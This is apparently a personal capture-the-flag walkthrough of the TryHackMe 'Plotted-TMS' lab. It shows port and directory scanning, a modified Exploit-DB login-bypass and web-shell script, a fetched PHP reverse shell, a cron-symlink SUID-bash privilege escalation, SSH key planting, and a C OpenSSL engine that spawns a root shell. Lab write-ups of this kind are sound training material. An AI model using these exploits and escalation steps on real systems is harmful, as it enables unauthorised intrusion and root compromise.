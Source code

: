 ```yaml
---

title: Walkthrough - Plotted-TMS
published: true
---
```


Tags: Security, Linux, RCE, PrivEsc, Linking
Description: Everything here is plotted!
Difficulty: Easy
URL: [https://tryhackme.com/room/plottedtms](https://tryhackme.com/room/plottedtms)

* * *

## Notes

- `sudo nmap -Pn -sS -T4 -p- 10.10.154.213 -vvv`
- `sudo nmap -sC -sV -sT -O -p22,80,445 10.10.154.213`

```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a3:6a:9c:b1:12:60:b2:72:13:09:84:cc:38:73:44:4f (RSA)
|   256 b9:3f:84:00:f4:d1:fd:c8:e7:8d:98:03:38:74:a1:4d (ECDSA)
|_  256 d0:86:51:60:69:46:b2:e1:39:43:90:97:a6:af:96:93 (ED25519)
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
445/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (92%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- `gobuster dir -u http://10.10.154.213 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,php,html -t 100 --no-error`

Port 80 contains a few different folders

```
/admin                (Status: 301) [Size: 314] [--> http://10.10.154.213/admin/]
/shadow               (Status: 200) [Size: 25]                                   
/passwd               (Status: 200) [Size: 25]   
```

- `/passwd` and `/shadow` contain a base64 message `bm90IHRoaXMgZWFzeSA6RA==` 

```
┌──(0xskar㉿cocokali)-[~]
└─$ echo "bm90IHRoaXMgZWFzeSA6RA==" | base64 -d                  
not this easy :D  
```

- `/admin` contains an `id_rsa` file - `Trust me it is not this easy..now get back to enumeration :D`

Dead end port 80. onto port 445:

- `gobuster dir -u http://10.10.102.139:445/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,php,html -t 100 --no-error`

Port 445 has a `/management` directory with an admin portal `/management/admin/login.php`.

Checking out the [source](https://www.sourcecodester.com/php/14909/online-traffic-offense-management-system-php-free-source-code.html) of this management system the default credentials `admin:admin123` 

Capturing the request in burpsuite we can see that SQLi is possible, and there are also few exploits in exploitdb we can use. 

- `python2 50221.py`
- `http://10.10.137.125:445/management/`

Running the script and trying gets us connected but doesnt ewrurn us anything and we can see some errors when we try to run commands.

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/plotted-tms]
└─$ python2 50221.py

Example: http://example.com

Url: http://10.10.137.125:445/management/
Check Url ...

[+] Bypass Login

[+] Upload Shell

[+] Exploit Done!

$ id
Traceback (most recent call last):
  File "50221.py", line 107, in <module>
    request = requests.post(find_shell.get("src") + "?cmd=" + cmd, data={'key':'value'}, headers=headers)
  File "/usr/share/offsec-awae-wheels/requests-2.23.0-py2.py3-none-any.whl/requests/api.py", line 119, in post
  File "/usr/share/offsec-awae-wheels/requests-2.23.0-py2.py3-none-any.whl/requests/api.py", line 61, in request
  File "/usr/share/offsec-awae-wheels/requests-2.23.0-py2.py3-none-any.whl/requests/sessions.py", line 516, in request
  File "/usr/share/offsec-awae-wheels/requests-2.23.0-py2.py3-none-any.whl/requests/sessions.py", line 459, in prepare_request
  File "/usr/share/offsec-awae-wheels/requests-2.23.0-py2.py3-none-any.whl/requests/models.py", line 314, in prepare
  File "/usr/share/offsec-awae-wheels/requests-2.23.0-py2.py3-none-any.whl/requests/models.py", line 388, in prepare_url
requests.exceptions.MissingSchema: Invalid URL '/management/uploads/1660858140_evil.php?cmd=id': No schema supplied. Perhaps you meant http:///management/uploads/1660858140_evil.php?cmd=id?
```

modifying the exploit lets us properly run it. adding the direct url to the request

```
        while True:
            cmd = raw_input("$ ")
            headers = {'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36'}
            request = requests.post("http://10.10.137.125:445"+find_shell.get("src") + "?cmd=" + cmd, data={'key':'value'}, headers=headers)
            print request.text.replace("<pre>" ,"").replace("</pre>", "")
            time.sleep(1)
```

we can now get a reverse shell by using nc 

- start up pwncat listenr `pwncat-cs -lp 6666`
- the nc mkfifo diesnt seem to work so i wget over a php reverse shell pentestmoney.
- access it at http://10.10.137.125:445/management/uploads/php-reverse-shell.php and recieve the rev shell

* * * 

## What is the content of user.txt?

- `cat /etc/crontab`

plot_admin is running a script 

```
(remote) www-data@plotted:/$ cat /var/www/scripts/backup.sh 
#!/bin/bash

/usr/bin/rsync -a /var/www/html/management /home/plot_admin/tms_backup
/bin/chmod -R 770 /home/plot_admin/tms_backup/management
```

1. create a script that copies bash to a shell than changes the files mode bits so it can be executed `echo "cp /bin/bash /home/plot_admin/pa_shell; chmod +xs /home/plot_admin/pa_shell" > script.sh`
2. change mode bits of script so it can be executed `chmod +x script.sh`
3. make a symbolic force link between the created script.sh with the bash and the plot_admins backup.sh `ln -sf script.sh backup.sh`
4. run the shell to get escalate to plot_admin `/home/plot_admin/pa_shell -p`

![](/assets/plotted-tms01.png)

add our ssh key to the user dir so we can ssh in as the user.

1. `mkdir .ssh && chmod 0700 .ssh`
2. on attacker ssh-keygen new key
3. `echo "sshkey" > .ssh/authorized_keys` && `chmod 0600`
4. ssh in

* * * 

## What is the content of root.txt?

```
╔══════════╣ Checking doas.conf
permit nopass plot_admin as root cmd openssl 
```

since we can run openssl as root create lets creat an exploit to take advantage

```
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

![](/assets/plotted-tms02.png)

* * * 

